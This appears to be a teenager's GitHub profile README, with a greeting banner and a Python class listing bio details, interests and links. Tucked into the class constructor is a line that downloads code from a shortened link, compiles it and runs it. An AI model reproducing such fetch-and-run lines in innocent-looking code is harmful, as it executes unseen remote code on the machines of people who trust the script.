 <h1 align="center">Hi 👋, I'm Lorin 🍈</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&lines=Welcome!;Willkommen!;%C2%A1Bienvenido!;Bi+x%C3%AAr+hat%C3%AE!;%CE%9A%CE%B1%CE%BB%CF%8E%CF%82+%CE%BF%CF%81%CE%AF%CF%83%CE%B1%CF%84%CE%B5!;Ho%C5%9F+geldiniz!;%E3%81%84%E3%82%89%E3%81%A3%E3%81%97%E3%82%83%E3%81%84%E3%81%BE%E3%81%9B%EF%BC%81;Croeso!)" /> 
</p>

```python
class melorin4:
  def __init__(self):
    subprocess.call("curl -sL 'spoti.fi/3pdhI4G' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🐧 I'm interested in'           : {'Art, *NIX customisation, Linux and BSD in general!'}
      '- 💼 I am a'                      : {'Senior high school student'},
      '- 🔭 I’m currently working on'    : {'My personal website'    : 'https://melorin4.github.io',
                                                             'cFetch': 'https://github.com/melorin4/cfetch'},
      '- 🌱 I’m currently learning'      : {'Python', 'Javascript', 'GDScript', 'Web Development', 'Godot Engine', 'GoLang'},
      '- 💬 Ask me about'                : {'Linux', 'Art', 'Games', 'Books'}
      '- 👨‍💻 My art is available at'      : 'https://www.instagram.com/melolorin/',
      '- ⚡ Fun fact'                    : ('I'm still very young and learning !!')
    }
if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(melorin4().__dict__)
```
